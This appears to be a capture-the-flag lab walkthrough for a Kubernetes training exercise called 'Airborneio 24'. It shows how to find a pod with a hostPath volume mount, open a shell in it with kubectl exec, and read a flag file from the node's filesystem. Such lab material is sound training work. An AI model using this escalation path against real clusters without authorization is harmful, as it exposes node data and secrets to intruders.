 # Airborneio 24 Challenge

The *Airborneio 24* challenge requires you to find a flag located on the Kubernetes node's file system. Without direct access to the file system and a view only Kubernetes role, you will need to find a misconfiguration in an existing resource to gain access to the flag.

## Host Path Mount Misconfiguration

Pods often need to store data on the file system as processes execute. Kubernetes supports many different volume types. The Kubernetes [hostPath](https://kubernetes.io/docs/concepts/storage/volumes/#hostpath) volume mount provides persisted storage for a pod using a directory on the host node's filesystem. Often the most simple way to gain persisted storage, the [host path mount](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Writable%20hostPath%20mount/){: target="_blank" rel="noopener"} can be a powerful attack vector for privilege escalation.

Review the pod configurations in the `hth` namespace. Which pod is using a **hostPath** mount configuration? What directory on the host node's filesystem is being mounted into the pod?

??? tip "Hint"

    - List the pods running in the `hth` namespace.

        ```bash
        kubectl get pods -n hth
        ```

        !!! abstract "Expected Output"
            ```bash
            NAME            READY   STATUS    RESTARTS   AGE
            api-randomid    1/1     Running   0          2d21h
            ui-randomid     1/1     Running   0          2d21h
            ```

    - Describe the configuration for each pod using the `kubectl describe pod` command. Search the output for the pod that has a **Volume** with a **Type** set to **HostPath**. The volume's **Path** is pointing to a directory on the node's file system that will be accessible from inside a pod running in the cluster.

        ```bash
        kubectl describe pod -n hth ENTER_POD_NAME 
        ```

        !!! abstract "Expected Output"
            ```yaml hl_lines="2-4"
            Volumes:
              hth:
                Type:          HostPath (bare host directory volume)
                Path:          ?????
                HostPathType:  DirectoryOrCreate
            ```

    - The same pod will have a **Mount** referencing the *hth* volume. The mount will specify  that specifies the directory inside the container.

        !!! abstract "Expected Output"
            ```yaml hl_lines="2"
            Mounts:
              ????? from hth (rw)
              /var/run/secrets/kubernetes.io/serviceaccount from kube-api-access-rgfww (ro)
            ```

??? success "Answer"

    - With this knowledge, you have discovered a [host path mount](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Writable%20hostPath%20mount/){: target="_blank" rel="noopener"} attack path to get from a compromised **api** pod to the node's filesystem.

        ```
        Pod: api-randomid
        Pod Mount Location: /mnt/hth/
        Host Path Location: /opt/data/hth
        ```

## Host Path Mount Privilege Escalation

Given a scenario where the pod is compromised, an attacker can use the **hostPath** volume mount to gain unauthorized access data on the Kubernetes node. Use the `kubectl exec` command to obtain a shell on the compromised pod and exfiltrate the `airborneio-24` flag from the Kubernetes node's filesystem.

??? tip "Hint"

    - Use the `kubectl exec` command to obtain a shell on the compromised pod.

        ```bash
        kubectl exec --stdin --tty -n hth ENTER_POD_NAME -- /bin/bash
        ```


        !!! abstract "Expected Output"
            ```bash
            root@api-randomid:/#
            ```

    - Once inside the pod, list the contents of the mount location.

        ```bash
        ls -l ?????
        ```

        !!! abstract "Expected Output"
            ```bash
            total 0
            drwxr-xr-x. 2 root root 68 Nov  8 23:03 api
            drwxr-xr-x. 2 root root 27 Nov  8 23:03 secrets
            ```

    - List the contents of the directory to find the `airborneio-24` flag.

        ```bash
        ls -l ?????/secrets/
        ```

        !!! abstract "Expected Output"
            ```bash
            -rw-r--r--. 1 root root 42 Nov  8 23:03 airborneio-24
            ```

    - Use the `cat` command to read the contents of the `airborneio-24` file and retrieve the flag.

    - Run the following command to exit the shell and return to your local machine.

        ```bash
        exit
        ```

??? success "Answer"

    - The `airborneio-24` flag is located in the `/mnt/hth/secrets` directory on the container's filesystem.
        
        ```bash
        cat /mnt/hth/secrets/airborneio-24
        ```

        !!! abstract "Expected Output"
            ```bash
            hth{?????}
            ```

## Next Challenge

Congratulations! You have identified a [host path mount](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Writable%20hostPath%20mount/){: target="_blank" rel="noopener"} misconfiguration and exfiltrated the **Airborneio 24** flag from the Kubernetes node's file system.

Continue to the [Shadowhawk Challenge](./shadowhawk.md) to learn how Kubernetes pods can inherit permissions from the underlying Kubernetes node.
